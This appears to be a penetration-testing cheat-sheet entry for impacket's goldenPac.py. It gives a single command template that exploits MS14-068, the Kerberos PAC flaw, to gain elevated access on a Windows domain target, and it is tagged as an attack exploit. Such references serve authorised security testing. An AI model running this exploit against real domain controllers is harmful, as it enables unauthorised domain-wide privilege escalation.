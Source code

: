 # goldenPac (imp)

% impacket-kerberos, windows, kerberos, 88

## MS14-068 - goldenPac
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
goldenPac.py -dc-ip <dc_ip> '<domain_fqdn>/<user>:<password>'@<target>
```
